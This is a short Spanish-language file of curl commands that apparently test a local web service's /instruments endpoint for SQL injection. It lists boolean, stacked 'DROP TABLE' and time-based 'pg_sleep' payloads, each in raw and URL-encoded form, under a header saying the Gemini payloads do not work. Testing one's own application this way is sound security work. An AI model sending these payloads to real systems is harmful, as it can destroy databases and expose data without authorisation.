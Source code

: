 # PAYLOADS DE GEMINI NO FUNCIONAN

# Intentará obtener un instrumento, pero la inyección puede listar todos o causar un error.
curl -X GET http://localhost:8080/instruments/1%20OR%201=1%20--

# Payload original: 1 OR 1=1 --
# Codificado para URL: 1%20OR%201%3D1%20--
curl -X GET "http://localhost:8080/instruments/1%20OR%201%3D1%20--"



# Payload original: 1; DROP TABLE instruments; --
# Codificado para URL: 1%3B%20DROP%20TABLE%20instruments%3B%20--
curl -X GET "http://localhost:8080/instruments/1%3B%20DROP%20TABLE%20instruments%3B%20--"



# Payload original: 1; SELECT pg_sleep(5); --
# Codificado para URL: 1%3B%20SELECT%20pg_sleep%285%29%3B%20--
curl -X GET "http://localhost:8080/instruments/1%3B%20SELECT%20pg_sleep%285%29%3B%20--"



GET /instruments/1 OR 1=1 --
curl -X GET "http://localhost:8080/instruments/1%27%20OR%201%3D1%20--"